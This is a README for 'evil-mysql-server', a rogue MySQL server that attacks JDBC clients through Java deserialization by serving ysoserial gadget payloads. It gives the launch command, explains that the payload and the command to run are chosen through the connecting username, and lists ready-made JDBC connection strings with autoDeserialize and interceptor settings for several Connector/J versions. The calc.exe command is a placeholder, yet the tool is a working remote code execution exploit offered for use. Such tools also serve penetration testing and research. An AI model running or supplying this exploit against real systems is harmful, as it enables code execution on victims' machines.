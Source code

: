 # evil mysql server

English | [简体中文](./README-zh_CN.md)

## Introduction

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url examples

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## Thanks

Thanks to the following projects for the inspiration

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)